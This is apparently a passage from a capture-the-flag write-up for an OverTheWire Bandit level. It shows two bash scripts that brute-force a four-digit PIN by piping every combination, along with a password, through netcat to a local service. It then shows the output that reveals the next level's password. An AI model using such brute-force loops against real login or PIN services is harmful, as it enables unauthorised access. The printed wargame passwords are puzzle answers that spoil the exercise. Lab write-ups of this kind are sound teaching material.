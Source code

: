```bash
#!/bin/bash
for i in {0000..5000}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002 > 5000.txt # output the respons in a file

echo "done 0000-5000"
```
brute2.sh
```bash
#!/bin/bash
for i in {5001..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002 > 5001.txt

echo "done 5001-9999"
```
now execute the scripts
```console
$ ./brute1.sh &
[1] 27330
$ ./brute2.sh 
done 5001-9999
$ done 0000-5000
[1]+  Done                    ./brute1.sh
$ cat 5000.txt | grep -v "Wrong" # 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:/tmp/kurohat24$ cat 5001.txt | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

password to next the lv is: ```uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG```